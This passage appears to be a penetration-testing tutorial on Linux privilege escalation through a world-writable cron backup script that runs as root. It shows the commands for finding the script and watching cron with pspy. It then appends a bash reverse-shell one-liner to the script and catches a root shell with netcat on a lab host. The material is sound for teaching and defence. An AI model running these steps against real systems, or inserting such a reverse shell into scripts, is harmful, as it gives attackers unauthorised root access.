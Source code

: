 Cron jobs can also be set run one time (such as on boot). They are typically used for administrative tasks such as running backups, cleaning up directories, etc. The `<crontab>` command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in `</var/spool/cron>` for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry `0 */12 * * * /home/admin/backup.sh` would run every 12 hours.

The root crontab is almost always only editable by the root user or a user with full sudo privileges; however, it can still be abused. You may find a world-writable script that runs as root and, even if you cannot read the crontab to know the exact schedule, you may be able to ascertain how often it runs (i.e., a backup script that creates a `.tar.gz` file every 12 hours). In this case, you can append a command onto the end of the script (such as a reverse shell one-liner), and it will execute the next time the cron job runs.

Certain applications create cron files in the `</etc/cron.d>` directory and may be misconfigured to allow a non-root user to edit them.

First, let's look around the system for any writeable files or directories. The file `<backup.sh>` in the `</dmz-backups>` directory is interesting and seems like it could be running on a cron job.

> find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

     /etc/cron.daily/backup
     /dmz-backups/backup.sh
     /proc
     /sys/fs/cgroup/memory/init.scope/cgroup.event_control

     <SNIP>
     /home/backupsvc/backup.sh

     <SNIP>

A quick look in the `</dmz/backups>` directory shows what appears to be files created every three minutes. This seems to be a major misconfiguration. Perhaps the sysadmin meant to specify every three hours like `0 */3 * * *` but instead wrote `*/3 * * * *`, which tells the cron job to run every three minutes. The second issue is that the `<backup.sh>` shell script is world writeable and runs as root.

> ls -la /dmz-backups/

     total 36
     drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
     drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
     -rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
     -rw-r--r--  1 root root 3336 Aug 31 02:24 www-backup-2020831-02:24:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:27 www-backup-2020831-02:27:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:30 www-backup-2020831-02:30:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:33 www-backup-2020831-02:33:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:36 www-backup-2020831-02:36:01.tgz
     -rw-r--r--  1 root root 3336 Aug 31 02:39 www-backup-2020831-02:39:01.tgz

We can confirm that a cron job is running using` <pspy> (*https://github.com/DominicBreuker/pspy*), `a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning `<procfs> (*https://en.wikipedia.org/wiki/Procfs*).

Let's run `<pspy>` and have a look. The `<-pf>` flag tells the tool to print commands and file system events and `<-i 1000>` tells it to scan `<profcs>(*https://man7.org/linux/man-pages/man5/procfs.5.html*)` every 1000ms (or every second).


> ./pspy64 -pf -i 1000

     pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


          ██▓███    ██████  ██▓███ ▓██   ██▓
     ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
     ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
     ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
     ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
     ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
     ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
     ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                    ░           ░ ░     
                                   ░ ░     

     Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scannning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
     Draining file system events due to startup...
     done
     2020/09/04 20:45:03 CMD: UID=0    PID=999    | /usr/bin/VGAuthService 
     2020/09/04 20:45:03 CMD: UID=111  PID=990    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
     2020/09/04 20:45:03 CMD: UID=0    PID=99     | 
     2020/09/04 20:45:03 CMD: UID=0    PID=988    | /usr/lib/snapd/snapd 

     <SNIP>

     2020/09/04 20:45:03 CMD: UID=0    PID=1017   | /usr/sbin/cron -f 
     2020/09/04 20:45:03 CMD: UID=0    PID=1010   | /usr/sbin/atd -f 
     2020/09/04 20:45:03 CMD: UID=0    PID=1003   | /usr/lib/accountsservice/accounts-daemon 
     2020/09/04 20:45:03 CMD: UID=0    PID=1001   | /lib/systemd/systemd-logind 
     2020/09/04 20:45:03 CMD: UID=0    PID=10     | 
     2020/09/04 20:45:03 CMD: UID=0    PID=1      | /sbin/init 
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh 
     2020/09/04 20:46:01 CMD: UID=0    PID=2200   | /bin/sh -c /dmz-backups/backup.sh 
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
     2020/09/04 20:46:01 CMD: UID=0    PID=2199   | /usr/sbin/CRON -f 
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 CMD: UID=0    PID=2203   | 
     2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 CMD: UID=0    PID=2204   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html 
     2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
     2020/09/04 20:46:01 CMD: UID=0    PID=2205   | gzip 
     2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
     2020/09/04 20:46:03 CMD: UID=0    PID=2206   | /bin/bash /dmz-backups/backup.sh 
     2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
     2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive


From the above output, we can see that a cron job runs the `<backup.sh>` script located in the `</dmz-backups>` directory and creating a tarball file of the contents of the `</var/www/html>` directory.

We can look at the shell script and append a command to it to attempt to obtain a reverse shell as root. If editing a script, make sure to `<ALWAYS>` take a copy of the script and/or create a backup of it. We should also attempt to append our commands to the end of the script to still run properly before executing our reverse shell command.

> cat /dmz-backups/backup.sh 

     #!/bin/bash
     SRCDIR="/var/www/html"
     DESTDIR="/dmz-backups/"
     FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
     tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR

 We can see that the script is just taking in a source and destination directory as variables. It then specifies a file name with the current date and time of backup and creates a tarball of the source directory, the web root directory. Let's modify the script to add a` <Bash one-liner reverse shell.> (*https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet*)

 <Code: bash>

     #!/bin/bash
     SRCDIR="/var/www/html"
     DESTDIR="/dmz-backups/"
     FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
     tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
     
     bash -i >& /dev/tcp/10.10.14.3/443 0>&1

We modify the script, stand up a local`<netcat>`listener, and wait. Sure enough, within three minutes, we have a root shell!

> nc -lnvp 443

     listening on [any] 443 ...
     connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38882
     bash: cannot set terminal process group (9143): Inappropriate ioctl for device
     bash: no job control in this shell

     root@NIX02:~# id
     id
     uid=0(root) gid=0(root) groups=0(root)

     root@NIX02:~# hostname
     hostname
     NIX02

